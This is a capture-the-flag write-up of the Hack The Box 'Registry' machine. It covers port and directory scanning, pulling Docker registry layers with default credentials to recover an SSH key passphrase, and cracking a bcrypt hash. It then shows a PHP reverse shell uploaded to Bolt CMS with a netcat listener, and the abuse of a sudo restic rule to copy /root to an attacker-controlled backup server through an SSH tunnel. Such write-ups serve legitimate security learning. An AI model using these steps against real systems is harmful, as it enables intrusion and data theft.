






# Registry


`Registry` box was the hard box. It falls under linux and hard category.Especially to read the root flag was a quite tough one. I’ll approach this write-up how I solved it, along with the problems that I had to face during this box.
<!--more-->

## HTB:Registry

Registry box was the hard box. It falls under linux and hard category. Especially to read the root flag was a quite tough one. I’ll approach this write-up how I solved it, along with the problems that I had to face during this box. At first I obtained the user flag by exploiting the docker registry page where I got the `id_rsa` key and `password`. For root, I got the `www-data` shell by exploiting `CSRF TO RCE` then with that shell I downloaded the backups files with restic-service and got a `root.txt`. I’ll show all my payload(including that didn’t work in initial deployment to get the root).

## Box Details



In the above picture it's IP was `10.10.10.159` and added it to `/etc/hosts` as registry.htb. Let's solve this box.

---------

## Recon
Let's start with our universal port scanner, `nmap` to see the open port and which shows port `SSH(22)`, `HTTP(TCP 80)` and `SSL(TCP 443)`.

```bash
root@gr4n173:~$ nmap -sS -sV -sC -Pn -oA nmap.txt 10.10.10.159
# Nmap 7.80 scan initiated Thu Oct 24 22:03:45 2019 as: nmap -sS -sV -sC -Pn -oA nmap.txt 10.10.10.159
Nmap scan report for 10.10.10.159
Host is up (0.30s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp  open  http     nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp open  ssl/http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=docker.registry.htb
| Not valid before: 2019-05-06T21:14:35
|_Not valid after:  2029-05-03T21:14:35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 24 22:04:44 2019 -- 1 IP address (1 host up) scanned in 58.92 seconds
```

## Web Enumeration
**registry.htb**

As soon as I saw port 80 opened I visited the site and got below as output.




Now as usual for website I we usually searched for dir so I searched  `dirsearch` tool as .


```bash
root@gr4n173:~$ ./dirsearch.py -e html,txt,php,pcap,tar,bzip -u http://registry.htb/ -w ~/Downloads/wo
rdlists/SecLists/Discovery/Web-Content/raft-large-directories.txt 

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: html, txt, php, pcap, tar, bzip | Threads: 10 | Wordlist size: 62279

Error Log: /home/bikram/bbek/recon_tool/dirsearch/logs/errors-20-04-02_20-42-51.log

Target: http://registry.htb/

[20:42:51] Starting: 
[20:42:54] 301 -  194B  - /install  ->  http://registry.htb/install/
[20:46:22] 200 -  612B  - /bolt 

Task Completed

```

and got the dir `/bolt` and `/install`. 



Fig: `/bolt`


Fig: `/install`


### Subdomain Enumeration
As the given was `http` but looked over `https` too. In order to find the interesting things I usually use `nikto` tool. So I used it here too and got the subdomain as `docker.registry.htb`

```bash
root@gr4n173:~$ nikto -h https://10.10.10.159                                                                             
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.159
+ Target Hostname:    10.10.10.159
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=docker.registry.htb
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /CN=Registry
+ Start Time:         2020-04-02 21:44:11 (GMT5.75)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and Expect-CT header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Hostname '10.10.10.159' does not match certificate's names: docker.registry.htb
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ OSVDB-3092: /install/: This might be interesting...
+ 7876 requests: 8 error(s) and 5 item(s) reported on remote host
+ End Time:           2020-04-03 00:49:25 (GMT5.75) (11114 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


### Docker Registry Exploit

Then I found the dir with dirsearch as `http://docker.registry.htb/v2/` and able to login with creds `admin:admin`. So I googled about it and found the interesting blog which explain how can we exploit the docker registry to download the stored files. You can find it [here](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry).


Then I used this blog to exploit the docker registry and downloaded the file as 

```bash
root@gr4n173:~$ curl --user "admin:admin" http://docker.registry.htb/v2/bolt-image/manifests/latest                [80/311]
{                                                                                                                                                     
   "schemaVersion": 1,                                                                                                                                
   "name": "bolt-image",                                                                                                                              
   "tag": "latest",                                                                                                                                   
   "architecture": "amd64",                                                                                                                           
   "fsLayers": [                                                                                                                                      
      {                                                                                                                                               
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"                                                         
      },                                                                                                                                              
      {                                                                                                                                               
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"                                                         
      },                                                                                                                                              
      {                                                                                                                                               
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"                                                         
      },                                                                                                                                              
      {                                                                                                                                               
         "blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"                                                         
      },                                                                                                                                              
      {                                                                                                                                               
         "blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"                                                         
      },                                                                                                                                              
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"
      },
      {
         "blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
      },
      {
         "blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
      },
      {
         "blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
      }
```

From above I saw the files name which start with `sha256` and downloaded to my local machine as zip file and unzipped it. After all I found interesting folder name with file `01-ssh.ssh`  `sha256_302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b` and got this as output.

```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
this way I got the `passphraase` and `id_rsa` and able to ssh in as bolt.

```bash
root@gr4n173:~$ ssh -i id_rsa bolt@registry.htb
The authenticity of host 'registry.htb (10.10.10.159)' can't be established.
ECDSA key fingerprint is SHA256:G1J5ek/T6KuCCT7Xp2IN1LUslRt24mhmhKUo/kWWVrs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'registry.htb' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Fri Apr  3 07:54:40 UTC 2020

  System load:  0.0               Users logged in:                1
  Usage of /:   6.1% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 49%               IP address for docker0:         172.17.0.1
  Swap usage:   0%                IP address for br-1bad9bd75d17: 172.18.0.1
  Processes:    157
Last login: Fri Apr  3 06:36:39 2020 from 10.10.14.18
bolt@bolt:~$ whoami
bolt
bolt@bolt:~$ cat user.txt
ytc0yt***************
```
  
This way I got the user `bolt`.


## To Root

### Web Enumeration

After a lot of dir search with different wordlist I finally got the login page of `bolt` cms site as.



Fig: Login Page


then I searched everypart of the bolt shell and got the hash in dir */var/www/html/app/database/bolt.db* and on `cat` I got the hash *$2y$10$e.ChUytg9SrL7AsboF2bX .wWKQ1LkS5Fi/Z0yYD86.P5E9cpY7P*. Now I used `john` to crack the hash and got the password `strawberry`.

```bash
root@gr4n173:~$ john hash -wordlist=/usr/share/wordlists/rockyou.txt
[sudo] password for bikram: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (?)
1g 0:00:00:05 DONE (2020-04-03 14:02) 0.1992g/s 71.71p/s 71.71c/s 71.71C/s strawberry..brianna
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

I used that creds(`admin:strawerry`) and logged in bolt cms.



Fig: Admin User

### Unprivileged User 
After logged in, I searched every part of cms and found the file upload field where I was unable to upload the `php` file. Since I was `admin` edited and added `php` extension in file `config.yml` which was located at url `http://registry.htb/bolt/bolt/file/edit/config/config.yml`  with a `php-reverse-shell.php` and listener on.
I found one interesting blog [CSRF-TO-RCE](https://fgsec.net/from-csrf-to-rce-bolt-cms/) you can read it.


Fig: Uploaded File

**Listner on**:

```bash
root@gr4n173:~$ nc -lvnp 8888
listneing on [any] 8888

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58100
Linux bolt 4.15.0-65-generic #74-Ubuntu SMP Tue Sep 17 17:06:04 UTC x86_64 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0 can't access tty;job contorl turned off
$ $python -c "import pty;pty.spawn('/bin/bash')"
www-data@bolt:$ sudo -l 
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

As, I saw the `restic` server running as root then searched for files and got `backup.php`

```php
www-data@bolt:/var/www/html$ cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

#### Restic Server
Then I searched about `restic` server and collected knowledge you can find [here](https://restic.readthedocs.io/en/latest/) and at first I download to my localhost then started the restic server as you can find file [rest-server](https://github.com/restic/rest-server).

```bash
root@gr4n173:~$ rest-server --path . --no-auth
Data directory: .
Authentication disabled
Private repositories disabled
Starting server on:8000
Creating repository directories in .
Creating repository directories in .
```
Now before directly using the `rest-server` in machine I used and in my local machine and it worked.

```bash
root@gr4n173:~$ restic -r http://10.10.14.129:8000 init
enter password for new repository:
enter password again:
created restic repository 39fcbee204 at rest:http://10.10.14.129:8000

Please note that knowledge of your password is required to access the repository. Losing your password means that your data is irreversibly lost.
```

#### Port Forwarding
After, it worked in my local machine I port forward from 8000 to 1234 ( this willn't work if your python is active at 8000 then it will route to another port ).

```bash
root@gr4n173:~$ ssh bolt@10.10.10.159 -i id_rsa -R 1234:127.0.0.1:8000
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic	 x86_64)

	System information as of Mon Nov 11 14:1018 UTC 2019
	
	System Load: 0.02 			Users logged in:					1
	Usage of /: 6.5% of 61.80GB	IP address for eth0:				10.10.10.159
	Memory usage: 53%			IP address for br-1bad9bd75d17: 	172.18.0.1
	Swap usage: 1%				IP address of docker0: 			172.17.0.1
	Processes: 206
	
	=> There is 1 zombies process.
Last Login: Mon Nov 11 14:1018 2019 from 10.10.15.129
bolt@bolt:~$whoami
bolt
```
At first I used the full directory of `restic` server but that doesn't work so I used below command in `www-data` shell

### Rest-Server Backup Files

```bash
www-data@bolt:~$ sudo restic backup -r rest:http://127.0.0.1:1234 /root/ 
sudo restic backup -r rest:http://127.0.0.1:1234 /root/
enter password for repository: something

password is correct 
found 1 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to scan [/root]
scanned 18 directories, 19 files in 0:00
[0:03] 100.00% 39.690 KiB / 39.690 KiB 37 /37 items 0 errors ETA 0:00 duration: 0:03
snapshot 4bf1b3af saved
```

Finally I restored and checked the `restic` server directory and got the files as

```bash
root@gr4n173:~$ restic restore 4bf1b3af915544c9d15d4aa741731382c9fd2dc68ffec7f769a237aaf52c2c02
enter password for repository:
repository 39fcbee2 opened succesfully, password is correct
created new cache in /root/.cache/restic
restorying <Snapshot 4bf1b3af of [/root] at 2019-11-11 14:13:38.38.895820081 +0000 UTC > root@bolt to .
```

Then I checked back to the folder `snapshot` and got the `root.txt`

```markdown
root@gr4n173:~/snapshots$ ls
4bf1b3af915544c9d15d4aa741731382c9fd2dc68ffec7f769a237aaf52c2c02  root
root@gr4n173:~/snapshots$ cd root
root@gr4n173:~/snapshots/root$ ls
config.yml  cron.sh  root.txt
root@gr4n173:~/snapshots/root$ cat root.txt
ntrkz*********************
```

This way I got the root of Registry box and learned alot from this box. So I would like to thank creator of this box `thek` for such an awesome box. Especially downloading the backup files from restic server was new one.

I will be posting writeup of next box after box retired. I would like to Thank readers for being with me through out this writeup.

Feedback are really appreciated !!

Tweet about this writeup if you like.

You can see more blog at my medium here: [gr4n173](https://medium.com/@gr4n173).


